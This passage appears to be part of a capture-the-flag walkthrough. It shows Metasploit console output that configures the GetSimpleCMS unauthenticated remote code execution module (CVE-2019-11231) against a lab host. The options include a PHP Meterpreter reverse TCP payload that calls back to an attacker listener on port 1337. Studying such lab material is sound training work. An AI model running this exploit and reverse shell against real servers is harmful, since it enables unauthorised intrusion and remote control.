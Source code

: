 ```
                                              ploit/basics/using-metasploit.html
  RPORT      80                     yes       The target port (TCP)
  SSL        false                  no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                      yes       The base path to the cms
  VHOST      gettingstarted.htb     no        HTTP server virtual host

Payload information:
  Avoid: 1 characters

Description:
  This module exploits a vulnerability found in GetSimpleCMS,
  which allows unauthenticated attackers to perform Remote Code Execution.
  An arbitrary file upload (PHPcode for example) vulnerability can be triggered by an authenticated user,
  however authentication can be bypassed by leaking the cms API key to target the session manager.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2019-11231
  https://ssd-disclosure.com/archives/3899/ssd-advisory-getcms-unauthenticated-remote-code-execution


View the full module info with the info -d command.

msf6 exploit(multi/http/getsimplecms_unauth_code_exec) >

```

then configure options with `set <option>` like so:

```
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > show options

Module options (exploit/multi/http/getsimplecms_unauth_code_exec):

   Name       Current Setting        Required  Description
   ----       ---------------        --------  -----------
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     http://10.129.207.104  yes       The target host(s), see https://docs.metasploit.com/docs/using-meta
                                               sploit/basics/using-metasploit.html
   RPORT      80                     yes       The target port (TCP)
   SSL        false                  no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                      yes       The base path to the cms
   VHOST      gettingstarted.htb     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.24      yes       The listen address (an interface may be specified)
   LPORT  1337             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   GetSimpleCMS 3.3.15 and before



```